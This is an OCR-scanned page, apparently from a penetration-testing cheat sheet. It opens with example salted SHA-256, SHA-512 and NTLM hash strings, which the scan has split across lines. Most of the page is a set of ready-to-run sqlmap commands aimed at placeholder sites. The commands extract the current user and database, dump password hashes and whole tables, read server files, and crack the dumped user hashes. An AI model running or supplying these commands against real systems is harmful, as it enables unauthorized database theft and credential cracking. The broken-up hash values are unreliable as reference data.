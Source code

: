 
c73d08de890479518ed60cf670d17faa26a4a7
1f995c1dcc978165399401a6c4

SHA-256 $SALT:$PASS
	

eb368a2dfd38b405f014118c7d9747fcc97f4
f0ee75c05963cd9da6ee65ef498:560407001617

SHA-512
	

82a9dda829eb7f8ffe9fbe49e45d47d2dad9
664fbb7adf72492e3c81ebd3e29134d9bc
12212bf83c6840f10e8246b9db54a4
859b7ccd0123d86e5872c1e5082f

SHA-512 $PASS:$SALT
	

e5c3ede3e49fb86592fb03f471c35ba13e8
d89b8ab65142c9a8fdafb635fa2223c24e5
558fd9313e8995019dcbec1fb58414
6b7bb12685c7765fc8c0d51379fd

SHA-512 $SALT:$PASS
	

976b451818634a1e2acba682da3fd6ef
a72adf8a7a08d7939550c244b237c72c7d4236754
4e826c0c83fe5c02f97c0373b6b1
386cc794bf0d21d2df01bb9c08a

NTLM Hash Example
	

b4b9b02e6f09a9bd760f388b67351e2b
SQLMap Examples

## A mini SQLMap cheat sheet:

	sqlmap -u http://meh.com --forms --batch --crawl=10 
 --cookie=jsessionid=54321 --level=5 --risk=3
	

Automated sqlmap scan

 sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE 
 --level=3 --current-user --current-db --passwords 
 --file-read="/var/www/blah.php" 
	

Targeted sqlmap scan

sqlmap -u "http://meh.com/meh.php?id=1" 
--dbms=mysql --tech=U --random-agent --dump 
	

Scan url for union + error based injection with mysql backend
and use a random user agent + database dump

sqlmap -o -u "http://meh.com/form/" --forms
	

sqlmap check form for injection

sqlmap -o -u "http://meh/vuln-form" --forms 
 -D database-name -T users --dump
	

sqlmap dump and crack hashes for table users on database-name.